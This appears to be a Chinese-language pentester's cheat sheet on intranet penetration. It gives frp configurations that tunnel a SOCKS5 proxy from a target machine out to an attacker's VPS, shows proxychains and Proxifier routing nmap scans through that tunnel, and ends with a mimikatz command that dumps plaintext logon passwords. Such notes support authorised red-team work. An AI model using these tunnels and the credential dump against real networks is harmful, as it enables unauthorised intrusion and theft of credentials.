

# 内网渗透总结

## 代理方法

### frp

> 下载链接：https://github.com/fatedier/frp/releases

#### frp工作原理拓扑图



#### 配置

在使用frp之前，首先要对服务端和客户端配置文件（frps.ini & frpc.ini）进行配置

服务端（有公网的机器）：frps.ini

```sh
[common]
# 监听端口
bind_addr = 0.0.0.0
bind_port = 7000
 
# 以下为web页面，可不配置
# IP 与 bind_addr 默认相同，可以不设置
dashboard_addr = 0.0.0.0
# 端口必须设置，只有设置web页面才生效
dashboard_port = 7001
# 用户密码
dashboard_user = y5neko
dashboard_pwd = y5neko
# 允许客户端绑定的端口
allow_ports = 40000-50000
```

```sh
服务端启动：./frps -c frps.ini
后台启动：nohup ./frps -c frps.ini &
```

客户端（目标机）：frpc.ini

```sh
[common]
# 服务端ip
server_addr = your vps addr
# 端口，与frps同步
server_port = 7000   
tls_enable = true
pool_count = 5
 
# socks代理模块
[plugin_socks]
type = tcp
# socks5端口
remote_port = 14512
plugin = socks5
# socks5账号密码
plugin_user = y5neko
plugin_passwd = y5neko
use_encryption = true
use_compression = true
```

```sh
客户端启动：./frpc -c frpc.ini &
后台启动：nohup ./frpc -c frpc.ini &
```

## 连接代理

### Proxifier

> Proxifier是一款功能非常强大的socks5客户端，可以让不支持通过代理服务器工作的网络程序能通过HTTPS或SOCKS代理或代理链。


#### 配置

配置文件 => 代理服务器


选中默认的代理服务器配置


填写建立的socks代理配置


检测连接成功后，右键通过Proxifier代理打开即可


### Proxychains

> 一款命令行代理神器，kali3以上默认自带。
>
> ps：proxychains不支持UDP和ICMP
>
> 

#### 配置

修改配置文件，文件位置为 **/etc/proxychains.conf**

用vi修改，找到 **[ProxyList]**

修改内容为：

```sh
[ProxyList]
# 代理方式以及配置
socks5 ip_addr port username password
```

#### 使用

```sh
proxyresolv 127.0.0.1					# 检测连接
proxychains nmap -sT -Pn 127.0.0.1		 # 通过socks代理执行命令，不支持UDP及ICMP，使用TCP扫描
```


## 口令破解

### mimikatz

无需tty读取明文密码

```shell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"
```

